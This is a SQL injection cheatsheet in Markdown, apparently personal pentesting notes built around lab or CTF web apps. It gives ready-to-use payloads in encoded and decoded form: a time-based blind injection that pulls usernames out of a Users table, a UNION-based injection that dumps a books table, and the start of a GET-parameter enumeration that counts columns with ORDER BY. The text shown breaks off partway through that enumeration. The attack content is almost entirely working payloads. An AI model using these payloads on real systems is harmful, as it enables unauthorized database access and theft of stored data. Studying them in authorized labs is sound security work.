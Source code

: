 ```yaml
---
title: Cheatsheet - SQL Injection (SQLi)
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/sqli/database-enum ]
img_path: /Cheatsheet/Web/SQLi/images
---
```


# Example

## Example of Blind & Classic
- Blind (Time-Based)
	```
	Encoded:
	username=test%27+AND+%28SELECT+8156+FROM+%28SELECT%28SLEEP%281-%28IF%28ORD%28MID%28%28SELECT+IFNULL%28CAST%28username+AS+NCHAR%29%2C0x20%29+FROM+Webapp.Users+ORDER+BY+id+LIMIT+4%2C1%29%2C6%2C1%29%29%3E1%2C0%2C1%29%29%29%29%29RKIU%29+AND+%27FTfR%27%3D%27FTfR&password=test&submit=+Login+

	Decoded:
	username=test' AND (SELECT 8156 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT IFNULL(CAST(username AS NCHAR),0x20) FROM Webapp.Users ORDER BY id LIMIT 4,1),6,1))>1,0,1)))))RKIU) AND 'FTfR'='FTfR&password=test&submit= Login 
	```
- Classic
	```
	Encoded:
	anon%27%20UNION%20ALL%20SELECT%20CONCAT%280x716a627a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x646b736c6d76%2Cbookname%2Cid%2Cprice%29%29%2C0x716a627171%29%2CNULL%2CNULL%20FROM%20webapphacking.books--%20-
	
	Decoded:
	anon' UNION ALL SELECT CONCAT(0x716a627a71,JSON_ARRAYAGG(CONCAT_WS(0x646b736c6d76,bookname,id,price)),0x716a627171),NULL,NULL FROM webapphacking.books-- -
	```

## Database Enumeration GET

1. Query
	![](theMarketplace query.png)
2. Determine if query is susceptible to SQLi
	![](theMarketplace SQLi susceptible.png)
3. Hypothesis 1
	```
	# SQL Query
	SELECT * FROM USERS WHERE user_id = '$_GET['user_input']'
	# Payload: Syntax Error
	SELECT * FROM USERS WHERE user_id = '''
	```
4. Determine the number of columns this table has
	```
	# SQLi Payload 
	GET /admin?user=1+ORDER+BY+1
	GET /admin?user=1+ORDER+BY+2
	GET /admin?user=1+ORDER+BY+3
	GET /admin?user=1+ORDER+BY+4
	GET /admin?user=1+ORDER+BY+5 [ERROR!]
	